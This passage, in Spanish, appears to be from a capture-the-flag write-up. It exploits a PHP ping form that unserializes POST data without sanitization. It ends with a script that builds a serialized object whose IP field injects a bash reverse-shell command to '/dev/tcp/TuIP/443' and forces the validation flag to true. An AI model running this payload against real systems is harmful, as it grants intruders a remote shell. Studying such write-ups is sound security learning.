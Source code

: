 ```php
		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```

Ahora si nos esta diciendo como es que esta usando `unserialize` y te lo url decodea lo que le hayas pasado no hay sanitizacion ya que si por post tramitas un dato te hace el `unserialize` de la data correspondiente si le pasas una ip el campo `isValid` lo convierte a `true` aunque `$isValid` esta puesto como `False`  si se iniciara con `True` no haria la validacion lo que tenemos que hacer en enviar el dato serializado 

Vamos a copearnos estas lineas

```php
<?php

class pingTest {
        public $ipAddress = "127.0.0.1";
        public $isValid = False;
        public $output = "";
}
```

Nos vamos a crear un archivo y vamos a pegar esas lineas

Tenemos que cambiar la ip del localhost para que nos mande una bash directamente y aplique el `serialize`

```php
❯ /bin/cat pwned.php
<?php

class pingTest {
        public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/TuIP/443 0>&1'";
        public $isValid = True;
        public $output = "";
}

echo urlencode(serialize(new pingTest));
?>
```
